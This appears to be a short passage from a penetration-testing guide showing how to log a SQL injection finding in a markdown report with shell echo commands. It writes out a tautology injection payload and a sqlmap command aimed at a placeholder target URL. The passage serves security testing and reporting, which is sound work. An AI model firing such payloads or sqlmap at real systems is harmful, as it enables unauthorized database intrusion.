 
### 11.3 Markdown Notes
    echo "#### Vulnerability: SQL Injection" >> report.md    
    echo "**URL:** https://vuln.target.com/product?id=1" >> report.md
    echo "**Parameter:** id" >> report.md
    echo "**Payload:** \`1' OR '1'='1 -- \`" >> report.md
    echo "**Evidence:**" >> report.md
    echo '```sqlmap output...' >> report.md
    sqlmap -u "[https://vuln.target.com/product?id=1](https://vuln.target.com/product?id=1)" --batch --banner >> report.md    
    echo '```' >> report.md
